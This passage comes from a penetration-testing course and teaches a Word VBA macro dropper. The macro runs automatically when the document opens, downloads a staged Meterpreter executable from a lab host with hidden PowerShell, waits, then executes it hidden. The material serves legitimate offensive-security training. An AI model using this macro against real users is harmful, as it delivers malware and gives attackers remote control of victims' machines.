 This will allow us to pass a _Wait_ parameter (measured in seconds), and pause the execution. To ensure that our _Wait_ procedure does not block Microsoft Word, each iteration calls _DoEvents_[10](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-10) to allow processing of other actions.

To begin, we'll retrieve the current date and time with the _Now_ function and save it to the _t_ variable. Then we'll use a _Do_ loop, which will work through the comparison declared in the _Loop Until_ statement.

```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

> Listing 27 - VBA wait method using dates

This code will continue to loop until the comparison is true, which happens when the current time (returned by _Now_) is greater than the time returned by the _DateAdd_ function. This function takes three arguments: a string expression that represents the interval of time ("s"), the number of seconds to wait (n), and the current time (t).

Simply stated, "n" seconds are added to the time the loops starts and the result is compared to the current time. Once "n" seconds have passed, the loop completes.

With the _Wait_ method implementation in place we just need to invoke it and then execute the Meterpreter executable. To do that, we'll again use the _Shell_ function and call the _exePath_ we created.

The complete VBA macro is shown below in Listing 28.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

